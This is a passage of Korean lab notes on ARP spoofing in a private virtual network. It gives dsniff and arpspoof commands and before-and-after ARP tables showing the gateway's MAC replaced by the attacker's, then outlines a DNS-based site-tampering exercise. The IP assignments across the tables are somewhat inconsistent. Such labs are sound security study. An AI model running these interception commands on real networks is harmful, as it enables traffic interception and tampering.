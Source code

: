 ```
sudo dsniff
```
```
sudo arpspoof -i eth0 -t 192.168.10.130 192.168.10.2
```
- 명령어 실행 전
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:50:56:e0:28:a3
```
![전](./img/스푸핑img/1.png)
- 명령어 실행 후
```
kali            (192.168.10.134) / 00:0c:29:b2:04:58
Windows 10      (192.168.10.132) / 00-0C-29-BE-47-CB
G/W             (192.168.10.2)   / 00:0c:29:b2:04:58
```
![후](./img/스푸핑img/2.png)

## 결론
- 공격을 하고 있는 동안만 MAC Address가 변경된다.

## 실습 2. 응용 실습 1.  (도메인을 이용한 공격)

### 개요
- CentOS에서 DNS서버와 Web 서버를 구축한다.
- Kali에서 ARP Spoofing 공격을 시도한다.
- Window 10에서 사이트 출력을 확인하고 변조된 것을 확인한다.

### 🖥️ 실습 환경(NAT)
```
- Attacker(Kali)        192.168.10.134 / c / 192.168.10.2 / 192.168.10.132
- Victim(CentOS)        192.168.10.132 / c / 192.168.10.2 / 192.168.10.132
- 확인(Windows 10)       192.168.10.130 / c / 192.168.10.2 / 192.168.10.132
``` 
